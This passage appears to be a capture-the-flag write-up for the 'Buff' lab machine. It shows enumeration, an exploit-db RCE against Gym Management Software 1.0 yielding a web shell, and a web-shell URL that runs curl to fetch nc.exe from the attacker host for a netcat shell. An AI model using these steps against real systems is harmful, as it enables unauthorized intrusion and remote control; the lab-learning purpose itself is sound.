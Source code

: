 {{< /highlight >}}

# Enumeration

Only port `8080` appears to be open. Service is `http`, so let's visit the address in a web browser:

![Buff_Page8080_MindMap](/images/htb/buff_page8080.png)

We are presented with a web page about fitness packages. Looking around on the website and visiting the contact page, we can see that it was built using **Gym Management Software 1.0**.

![Gym_Management_MindMap](/images/htb/gym_management.png)

Googling for that version, we discover that there is a Remote Code Execution (RCE) vulnerability affecting this exact service:

>Gym Management System version 1.0 suffers from an Unauthenticated File Upload Vulnerability allowing Remote Attackers to gain Remote Code Execution (RCE) on the Hosting Webserver via uploading a maliciously crafted PHP file that bypasses the image upload filters.

The exploit can be found here: https://www.exploit-db.com/exploits/48506

Once the exploit is run, we will be able to communicate with the uploaded web shell at `/upload.php?id=kamehameha` using `GET` requests with the `telepathy` parameter.

# Exploitation


I download the exploit and execute it against the target machine:

{{< highlight html >}}
python 48506.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG
▒
buff\shaun

C:\xampp\htdocs\gym\upload>
{{< /highlight >}}

I  am logged in as the **shaun** user!

The obtained shell appears not to be very stable, we can upgrade it to a netcat shell. It is possible to download netcat on the target machine as follows:

- set up a python HTTP server on the attacking machine in order to serve the `nc.exe` file
- visit the following page in the web browser in order to request the file from the attacking machine:
**http://10.10.10.198:8080/upload/kamehameha.php?telepathy=curl -O 10.10.14.18:8888/nc.exe**

